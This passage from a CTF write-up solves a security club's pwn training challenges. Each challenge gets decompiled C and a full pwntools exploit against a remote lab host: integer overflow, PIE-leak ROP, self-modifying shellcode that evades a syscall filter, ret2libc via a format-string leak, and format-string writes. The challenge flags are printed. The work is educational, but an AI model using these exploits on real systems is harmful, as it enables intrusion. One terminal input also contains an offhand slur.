payload += p64(pop_rdi_ret) + p64(0xDEADBEEFDEADBEEF)
payload += p64(pop_rsi_ret) + p64(0xDEADBEEFDEADBEEF)
payload += p64(ret_gadget) + p64(win_addr)

p.sendline(payload)
p.interactive()
```

Flag: `BKSEC{W3_4LL_Hat3_tH4_d4mn_c4NARY}`.



## int_1
Basic file information:

```bash
$ file int_1
int_1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f200e5bb10bc777e114e8de0418256012f6dabdd, for GNU/Linux 3.2.0, not stripped
```
```bash
$ pwn checksec int_1
[*] '/mnt/e/ctf-chall/bksec_training/pwn/int_1/int_1'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

`main()` decompile by IDA Pro:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-14h] BYREF
  int v5; // [rsp+10h] [rbp-10h] BYREF
  int v6; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v7; // [rsp+18h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  printf("Enter the first positive number: ");
  __isoc99_scanf("%d", &v4);
  if ( v4 >= 0 )
  {
    printf("Enter the second positive number: ");
    __isoc99_scanf("%d", &v5);
    if ( v5 >= 0 )
    {
      puts("=====================================");
      puts("I would try to sum these two numbers!");
      puts("=====================================");
      v6 = v4 + v5;
      printf("Our answer is  %d\n", v4 + v5);
      if ( v6 >= 0 )
      {
        puts("Your sum is not negative, great!");
      }
      else
      {
        puts("Hmm something is wrong with this calculator");
        system("/bin/sh");
      }
      return 0;
    }
    else
    {
      puts("Second number cannot be negative.");
      return 1;
    }
  }
  else
  {
    puts("First number cannot be negative.");
    return 1;
  }
}
```

A simple integer overflow challenge. Because I'm unemployed so I write a python script to solve this.

```py
from pwn import *

p = remote("103.77.175.40", 6051)

payload = b"2147483647"
p.sendline(payload)
p.sendline(payload)
p.interactive()
```

Flag: `BKSEC{maTh_1s_7hE_woR57_thIn6_EveRrr}`.



## bof_4
Basic file information:

```bash
$ file bof_4
bof_4: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=59000cf22e82083de57e56e0e9bf86524176a5ed, for GNU/Linux 3.2.0, not stripped
```
```bash
$ pwn checksec bof_4
[*] '/mnt/e/ctf-chall/bksec_training/pwn/bof_4/bof_4'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

This problem have `PIE enabled`. But it leaked the base address itself.

```bash
$ ./bof_4
Wait a second til i eat my PIE!
...
Opps! 0x5933016f5000
...
Enter your favorite number: nig

```

Variable address I get using Cutter:



Decompile using IDA Pro:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[8]; // [rsp+0h] [rbp-60h] BYREF
  __int64 v5; // [rsp+8h] [rbp-58h]
  __int64 v6; // [rsp+10h] [rbp-50h]
  __int64 v7; // [rsp+18h] [rbp-48h]
  __int64 v8; // [rsp+20h] [rbp-40h]
  __int64 v9; // [rsp+28h] [rbp-38h]
  __int64 v10; // [rsp+30h] [rbp-30h]
  __int64 v11; // [rsp+38h] [rbp-28h]
  __int64 v12; // [rsp+40h] [rbp-20h]
  __int64 v13; // [rsp+48h] [rbp-18h]
  int *v14; // [rsp+58h] [rbp-8h]

  setbuf(_bss_start, 0LL);
  *(_QWORD *)s = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  v11 = 0LL;
  v12 = 0LL;
  v13 = 0LL;
  v14 = &dword_0;
  puts("Wait a second til i eat my PIE!");
  puts("...");
  printf("Opps! %p\n", &dword_0);
  puts("...");
  printf("Enter your favorite number: ");
  fgets(s, 256, stdin);
  return 0;
}

int __fastcall win(const char *a1, const char *a2)
{
  if ( a1 != (const char *)-2401053088876216593LL || a2 != (const char *)0xDEADBEEFDEADBEEFLL )
  {
    puts("!!! Access denied");
    printf("Entered param1: %s\n", a1);
    printf("Entered param2: %s\n", a2);
    exit(1);
  }
  return system("/bin/sh");
}
```

We have the base address. Now it became a simple bof challenge. Just add the base address before gadget/static address and we can hijack the program execution flow.

This is a python script I write to exploit this challenge.

```py
from pwn import *

# p = process("./bof_4")
p = remote("103.77.175.40", 6031)

p.recvuntil(b"Opps! ")

static_addr = 0x555555554000 - 0x555555554000
dynamic_addr = int(p.recvline()[:-1].decode("utf-8"), 0)

base_addr = dynamic_addr - static_addr

win_addr = 0x00001206 + base_addr
pop_rdi_ret = base_addr + 0x00000000000011F8
pop_rsi_ret = base_addr + 0x0000000000001201
ret_addr = base_addr + 0x000000000000101A

target = 0xDEADBEEFDEADBEEF
offset = 0x68

payload = b"A" * offset
payload += p64(pop_rdi_ret) + p64(target)
payload += p64(pop_rsi_ret) + p64(target)
payload += p64(ret_addr) + p64(win_addr)

p.sendline(payload)
p.interactive()
```



Flag: `BKSEC{apP13_pi3_1s_D3lIC1ouS_BuT_NoT_PIE_XD}`

## shell_1

As always, basic information:

```bash
$ file shell_1
shell_1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4df1cf3693256fd8ca59cff383938b86e90170fe, for GNU/Linux 3.2.0, not stripped
```
```bash
$ pwn checksec shell_1
[*] '/mnt/e/ctf-chall/bksec_training/pwn/shell_1/shell_1'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

`main()` decompiled by IDA Pro:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+4h] [rbp-Ch]
  char *s; // [rsp+8h] [rbp-8h]

  setbuf(_bss_start, 0LL);
  s = (char *)mmap((void *)0x1337000, 0x100uLL, 7, 50, -1, 0LL);// Add r-w-x permission to 0x1337000
  if ( s == (char *)-1LL )
  {
    perror("mmap");
    exit(1);
  }
  printf("Enter your shellcode (max %d bytes):\n", 256);
  fgets(s, 256, stdin);
  for ( i = 0; s[i]; ++i )
  {
    if ( *(_WORD *)&s[i] == 1295 )
    {
      puts("Sorry no syscall");
      exit(1);
    }
  }
  ((void (*)(void))s)();                        // Cast string s into function and execute it
  munmap(s, 0x100uLL);
  return 0;
}
```

So we need to input a shellcode to get shell. But the problem is the program blocked `syscall`:

```c
if ( *(_WORD *)&s[i] == 1295 )
{
  puts("Sorry no syscall");
  exit(1);
}
```

So the idea is using **self-modifying code**. Honestly I'm not really understand these shellcode.

```py
from pwn import *

context.arch = "amd64"

# Shellcode sử dụng Label để tính địa chỉ chính xác
shellcode_asm = """
    /* --- Setup execve("/bin/sh", 0, 0) --- */
    /* Bước 1: Đẩy chuỗi /bin/sh vào stack */
    mov rax, 0x68732f6e69622f   /* "/bin/sh\x00" (đã đảo ngược little endian) */
    push rax
    mov rdi, rsp                /* RDI trỏ vào chuỗi */

    /* Bước 2: Setup RSI và RDX bằng 0 */
    xor rsi, rsi
    xor rdx, rdx

    /* Bước 3: Setup RAX = 59 (syscall execve) */
    push 59
    pop rax

    /* --- PHẦN QUAN TRỌNG: BYPASS FILTER --- */
    
    /* Dùng Label 'byte_can_sua' để lấy địa chỉ chính xác của byte 0x04.
       Trình biên dịch sẽ tự thay thế [rip + byte_can_sua] bằng offset đúng.
    */
    lea rbx, [rip + byte_can_sua]
    
    /* Tăng giá trị tại địa chỉ đó lên 1 đơn vị (0x04 -> 0x05) */
    inc byte ptr [rbx]

    /* Mã máy tại đây: 0x0f 0x04 */
    .byte 0x0f
    
byte_can_sua:
    .byte 0x04   /* Đây là byte sẽ bị sửa thành 0x05 khi chạy */
"""

payload = asm(shellcode_asm)

# --- KIỂM TRA LỖI PHỔ BIẾN ---

# 1. Kiểm tra Bad Characters (0x0a - Newline)
# Vì hàm main dùng fgets(), nếu payload chứa byte \x0a, nó sẽ bị cắt cụt -> CRASH
if b"\n" in payload:
    print("[-] CẢNH BÁO: Payload chứa byte xuống dòng (0x0a)!")
    print("    fgets sẽ dừng đọc sớm. Shellcode bị hỏng.")
    # In ra hex để xem byte 0a nằm ở đâu
    print(hexdump(payload))
    exit()

# 2. Kiểm tra lại xem có dính syscall gốc không
if b"\x0f\x05" in payload:
    print("[-] Vẫn dính syscall 0f 05!")
    exit()

print(f"[+] Payload length: {len(payload)} bytes")
print("[+] Payload clean. Sending...")

# Gửi payload (Thay đổi process hoặc remote tùy môi trường của bạn)
# p = process("./shell_1")
p = remote("103.77.175.40", 6071)

# p.sendlineafter(b"max 256 bytes):\n", payload)
p.sendline(payload)
p.interactive()
```



Flag: `BKSEC{sHe_5ell_seA_sh3ll}`

## index_1

The program forgot to check negetive number input. We can exploit this to get unlimited money. Then use option 6 to get shell and cat the `flag.txt`.



Flag: `BKSEC{wHy_bUY_p@PC@i1_in5T34D_0f_f1A9}`

## ret2libc

```bash
$ file bof
bof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ef6111e69705587a9edbe570cbf39b538cde4f3f, for GNU/Linux 3.2.0, stripped
```
```bash
$ pwn checksec bof
[*] '/mnt/e/ctf-chall/bksec_training/pwn/ret2libc/bof'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
```

Use IDA Pro I get pseudo-code of the program. I modified the value so it be easy to understand.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  init();
  printf("Enter your name: ");
  fgets(s, 32, stdin);
  sub_401303(s);
  return 0LL;
}

__int64 __fastcall sub_401303(const char *a1)
{
  char v2[112]; // [rsp+10h] [rbp-70h] BYREF

  printf(a1);                                   // format string vuln
  printf("Input your string: ");
  gets(v2);                                     // buffer overflow vuln here
  printf("Here's your string: %s", v2);
  return 0LL;
}
```

This is a new technique, so I spend some time to learn it properly.

Resources I use:
- `https://www.youtube.com/watch?v=XX9sA90xN64`
- `https://gemini.google.com/share/b5568566e93a`

As the challenge name suggested, I use a technique called `ret2libc`. This technique have 2 stage.

But first I patched the binary with the given `libc.so.6` using `pwninit`.

```bash
$ pwninit
bin: ./bof
libc: ./libc.so.6

fetching linker
https://launchpad.net/ubuntu/+archive/primary/+files//libc6_2.35-0ubuntu3.8_amd64.deb
copying ./bof to ./bof_patched
running patchelf on ./bof_patched
writing solve.py stub
```

### Stage 1: Leak libc address.
We use the format string vuln to leak the libc address. I use gdb to inspect the stack frame.



Here we have `_IO_2_1_stdin_`. This is a global variable in libc. I will exploit the format string vuln to leak this address. Base on `x86 calling convention`, we can calculate the offset to this variable. So the payload to leak this address is: `%12$p`.

Now I calculate libc base address. Simply use the leaked `_IO_2_1_stdin_` subtract the offset symbol we already have.

```py
from pwn import *

exe = ELF("./bof_patched")
libc = ELF("./libc.so.6")

context.binary = exe

# p = process(exe.path)
p = remote("103.77.175.40", 6035)


# Stage 1: Leak libc
main_addr = 0x0040136B

p.sendlineafter(b"Enter your name: ", b"%12$p")
libc_leak = int(p.recvline(), 0)

libc.address = libc_leak - libc.sym["_IO_2_1_stdin_"]

log.info(f"Libc leak: {hex(libc_leak)}")
log.info(f"Libc base: {hex(libc.address)}")
```

### Stage 2: Spawn shell
Known the libc address, now it became simple. Just build a rop chain exploit the buffer overflow vuln. I have the offset to the stack using `Cutter`.



This is full script exploit this challenge.

```py
from pwn import *

exe = ELF("./bof_patched")
libc = ELF("./libc.so.6")

context.binary = exe

# p = process(exe.path)
p = remote("103.77.175.40", 6035)


# Stage 1: Leak libc
main_addr = 0x0040136B

p.sendlineafter(b"Enter your name: ", b"%12$p")
libc_leak = int(p.recvline(), 0)

libc.address = libc_leak - libc.sym["_IO_2_1_stdin_"]

log.info(f"Libc leak: {hex(libc_leak)}")
log.info(f"Libc base: {hex(libc.address)}")

# Stage 2: Get shell
pop_rdi_ret = ROP(libc).find_gadget(["pop rdi", "ret"])[0]
bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]
ret_gadget = 0x000000000040101A

payload = flat(b"A" * 0x78, ret_gadget, pop_rdi_ret, bin_sh, system)

p.sendlineafter(b"Input your string: ", payload)
p.interactive()

```



Flag: `BKSEC{buff3t_0verfl0w_supppper_Ezz}`.

## fmt_1
Basic file information:

```bash
$ file fmt_1
fmt_1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=751e77c7fbc2c9faffd29532e58cbe2cb682f148, for GNU/Linux 3.2.0, not stripped
```
```bash
$ pwn checksec fmt_1
[*] '/mnt/e/ctf-chall/bksec_training/pwn/fmt_1/fmt_1'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Decompile using IDA Pro:

```c
unsigned __int64 vuln()
{
  _BYTE buf[520]; // [rsp+0h] [rbp-210h] BYREF
  unsigned __int64 v2; // [rsp+208h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  puts("What do you want to say?");
  read(0, buf, 512uLL);
  printbuffer(buf);                             // format string vuln
  if ( target == 1869768040 )
    win();
  else
    puts("You are not a hero.");
  return v2 - __readfsqword(0x28u);
}
```

We exploit format string vuln to overwrite `target` to `1869768040` so we can access `win()`.

First I need to find the offset from `printf` to `buf`. I manually find it.



The offset is `10`.

Since `PIE` is off. I don't need to find base address. Now I write a script to exploit.

```py
from pwn import *

exe = ELF("./fmt_1")
context.binary = exe

# p = process(exe.path)
p = remote("103.77.175.40", 6101)

target_addr = exe.sym["target"]
target_val = 0x6F726568
offset = 10
log.info(hex(target_addr))

payload = fmtstr_payload(offset, {target_addr: target_val})

log.info(f"Format string payload: {payload}")

p.sendline(payload)
p.interactive()
```

This is the first time i use `fmtstr_payload`. Very convenient. Just provide it with `offset`, `target_address` and `wanted_value` and it will generate payload for us. But we need to provide it `context.binary`.

Format string payload: `b'%104c%16$lln%7c%17$hhnccc%18$hhn%243c%19$hhnaaaa\xa44@\x00\x00\x00\x00\x00\xa74@\x00\x00\x00\x00\x00\xa64@\x00\x00\x00\x00\x00\xa54@\x00\x00\x00\x00\x00'`



Flag: `BKSEC{a_H3r0_w4S_r4iS3d}`

Reference: `https://gemini.google.com/share/b8f0d65be73a`

## fmt_2
Basic information:

```bash
$ file fmt_2
fmt_2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b37d35bdad8167493ebdd229e89ceb089367fe27, for GNU/Linux 3.2.0, not stripped
```
```bash
$ pwn checksec fmt_2
[*] '/mnt/e/ctf-chall/bksec_training/pwn/fmt_2/fmt_2'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Still no `PIE` enabled.

First I need to leak the libc address.

Use `gdb` to find libc version.

